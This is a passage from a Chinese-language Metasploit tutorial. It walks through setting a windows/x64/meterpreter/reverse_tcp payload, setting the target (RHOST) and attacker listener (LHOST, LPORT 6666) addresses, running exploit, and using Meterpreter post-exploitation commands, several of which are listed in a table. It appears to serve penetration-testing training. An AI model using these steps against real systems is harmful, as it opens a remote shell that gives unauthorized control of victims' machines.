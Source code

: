 1. 查看攻击载荷
~~~bash
show  payloads  #该命令可以查看当前漏洞利用模块下可用的所有Payload
~~~

2. 设置攻击载荷
~~~bash
set payload windows/x64/meterpreter/reverse_tcp
~~~

3. 查看模块需要配置的参数
~~~bash
show  options
~~~

4. 设置攻击载荷参数
~~~bash
set RHOST 192.168.100.158   #设置RHOST，也就是要攻击主机的ip
set LHOST 192.168.100.132   #设置LHOST，也就是我们主机的ip，用于接收从目标机弹回来的shell
set lport 6666              #设置lport，也就是我们主机的端口，反弹shell到这个端口；如果我们这里不设置lport的话，默认是4444端口监听；
~~~

5. 进行攻击
~~~bash
exploit
~~~

---

### 后渗透阶段
> 运行了 `exploit` 命令之后
> 我们开启了一个 `reverse TCP` 监听器来监听本地的 `6666` 端口
> 即我(攻击者)的本地主机地址(LHOST)和端口号(LPORT)
> 运行成功之后，我们将会看到命令提示符 `meterpreter >` 出现

Meterpreter 的命令用法:
~~~bash
==========================================
核心命令：
==========================================
命令                           说明
-------                       ------------
?                             帮助菜单
background                    把当前会话挂到后台运行
bg                            background命令的别名
bgkill                        杀死后台meterpreter 脚本
bglist                        列出正在运行的后台脚本
bgrun                         执行一个meterpreter脚本作为后台线程
channel                       显示信息或控制活动频道
close                         关闭一个频道
detach                        分离Meterpreter会话（用于 http/https）
disable_unicode_encoding      禁用 unicode 字符串的编码
enable_unicode_encoding       启用 unicode 字符串的编码
exit                          终止 Meterpreter 会话
get_timeouts                  获取当前会话超时值
guid                          获取会话 GUID
help                          帮助菜单
info                          显示有关 Post 模块的信息
irb                           在当前会话中打开一个交互式 Ruby shell
load                          加载一个或多个 Meterpreter 扩展
machine_id                    获取连接到会话的机器的 MSF ID
migrate                       将服务器迁移到另一个进程
pivot                         管理枢轴侦听器
pry                           在当前会话上打开 Pry 调试器
quit                          终止 Meterpreter 会话
read                          从通道读取数据
resource                      运行存储在文件中的命令
run                           执行一个 Meterpreter 脚本或 Post 模块
~~~